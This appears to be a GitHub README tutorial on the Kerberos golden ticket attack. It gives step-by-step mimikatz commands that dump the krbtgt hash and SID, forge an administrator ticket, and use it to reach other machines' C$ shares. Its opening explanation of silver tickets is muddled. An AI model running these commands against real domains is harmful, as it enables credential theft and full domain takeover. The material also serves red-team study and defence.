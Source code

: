 # Golden-Ticket-Attack

A golden ticket attack works by dumping the ticket-granting ticket of any user on the domain this would preferably be a domain admin however for a golden ticket you would dump the krbtgt ticket and for a silver ticket, you would dump any service or domain admin ticket. This will provide you with the service/domain admin account's SID or security identifier that is a unique identifier for each user account, as well as the NTLM hash. You then use these details inside of a mimikatz golden ticket attack in order to create a TGT that impersonates the given service account information.

## Golden Ticket Attacks w/ mimikatz 
Using mimikatz.exe, we gonna dump the krbtgt hash and sid.
```markdown
.\mimikatz.exe
privilege::debug
lsadump::lsa /inject /name:krbtgt
```

![OnPaste 20220614-120938](https://user-images.githubusercontent.com/106917304/173510236-d02a0fdd-2e67-4a81-9763-e6d210e480bc.png)


Now generate golden ticket using krbtgt hash and sid.
```markdown
kerberos::golden /user: /domain: /sid: /krbtgt: /id:
```
NOTE: id is set to 500 for golden ticket attack.


![OnPaste 20220614-121203](https://user-images.githubusercontent.com/106917304/173510532-09a2930d-83f2-4137-b483-b5461c6e3ed4.png)

Use the Golden Ticket to access other machine.

This will open a new command prompt with elevated privileges to all machines.
```markdown
misc::cmd
```
![OnPaste 20220614-121351](https://user-images.githubusercontent.com/106917304/173510764-a28e6a59-7adf-4e2f-9b23-7a4f98a5e89d.png)


Access other Machines! - You will now have another command prompt with access to all other machines on the network.

```markdown
dir \\DESKTOP-1\c$
```

![OnPaste 20220614-121503](https://user-images.githubusercontent.com/106917304/173511018-f5e167eb-8cd5-46d9-91a3-d8c4ab2ce233.png)


![OnPaste 20220614-122214](https://user-images.githubusercontent.com/106917304/173512248-f68d86b3-ed7e-47c3-8ca8-dfa09be766f2.png)


